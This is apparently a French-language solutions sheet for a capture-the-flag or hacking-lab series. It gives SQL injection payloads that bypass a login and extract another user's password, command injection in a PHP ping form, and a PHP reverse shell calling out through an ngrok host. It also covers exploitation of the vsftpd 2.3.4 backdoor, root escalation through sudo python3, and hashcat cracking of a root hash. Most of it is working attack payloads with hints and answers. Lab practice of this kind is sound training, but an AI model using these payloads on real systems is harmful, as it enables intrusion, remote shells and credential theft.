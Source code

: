 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution :
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :
    Mettre en user : (n'importe quoi)
    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution :
    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
nc -l -p 12345 
ngrok tcp 12345
php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# vstfp:2.3.4 backdoor

* Solution :
    ftp 10.1.0.188
    Connected to 10.1.0.188.
    220 (vsFTPd 2.3.4)
    Name (10.1.0.188:root): ANYTHINGHERE:)
    331 Please specify the password.
    Password:
    ^C
    421 Service not available, remote server has closed connection

    nc -vn 10.1.0.188 6200
    Connection to 10.1.0.188 6200 port \[tcp/*\] succeeded!

    ls ~
    flag.txt

    cat ~/flag.txt


# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution :
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"

# Hash root
ls ~
pense_bete.txt

cat ~/pense_bete.txt
Pense-bête pour le mdp root de l'autre machine:
dc15d3f5ab9656bc55f7a2f5d1e3a0a5

* Solution :
    hashcat -m0 -O flag /usr/share/wordlists/rockyou.txt
    (hashcat -m0 --show flag)